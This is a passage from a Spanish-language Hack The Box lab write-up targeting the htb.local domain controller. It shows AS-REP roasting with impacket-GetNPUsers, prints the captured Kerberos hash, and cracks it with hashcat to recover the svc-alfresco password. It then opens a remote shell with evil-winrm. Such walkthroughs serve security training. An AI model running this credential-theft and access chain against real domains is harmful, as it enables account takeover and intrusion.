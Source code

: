 ```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ sudo impacket-GetNPUsers -request -dc-ip 10.10.10.161 htb.local/

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2025-01-08 07:40:04.738225  2025-01-08 07:40:01.956933  0x410200 

$krb5asrep$23$svc-alfresco@HTB.LOCAL:44ad01dc17d4ba761d72ea7545970dcd$7806253f36fd17dd6d9669037ace47695e502faace5fa4e2409a727613d40d083db43a8f229c3feb8968f8a48fef57d4f71f526f19d66345e6662e3563756a92e9717357312ae3c7e0d16e6fe092b09b698fbd64a5e91d9b566f1d15c3dfeaad0f1eb7e6a73d8c8ea75aaad258df47071858092fde8b9eb2c649c30fcfe30f318da1196a789d4c915e4d5e63c876d73ffaa6ff568adab010d87586ec32cc8f023a824b922b192eb0d40db2efe04dc1450e297fadfbc46f452458810d0bcffbd33933e2b1d2039332d4953ac955fb4c27c61df64c039eb88c502e0be28a47a71fadca23864fdd
```

Vamos a crackear el hash:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ sudo hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force --show

$krb5asrep$23$svc-alfresco@HTB.LOCAL:44ad01dc17d4ba761d72ea7545970dcd$7806253f36fd17dd6d9669037ace47695e502faace5fa4e2409a727613d40d083db43a8f229c3feb8968f8a48fef57d4f71f526f19d66345e6662e3563756a92e9717357312ae3c7e0d16e6fe092b09b698fbd64a5e91d9b566f1d15c3dfeaad0f1eb7e6a73d8c8ea75aaad258df47071858092fde8b9eb2c649c30fcfe30f318da1196a789d4c915e4d5e63c876d73ffaa6ff568adab010d87586ec32cc8f023a824b922b192eb0d40db2efe04dc1450e297fadfbc46f452458810d0bcffbd33933e2b1d2039332d4953ac955fb4c27c61df64c039eb88c502e0be28a47a71fadca23864fdd:s3rvice
```

Ahora que tenemos las credenciales **svc-alfresco:s3rvice**, podemos intentar acceder a la máquina a través de WinRM con una herramienta como `evil-winrm`.

- - -
## Setting a Foothold
Podemos acceder a la máquina abusando del protocolo **WinRM** con `evil-winrm`, aprovechando las credenciales que acabamos de encontrar.

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice       

Evil-WinRM shell v3.7
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> whoami
htb\svc-alfresco
```
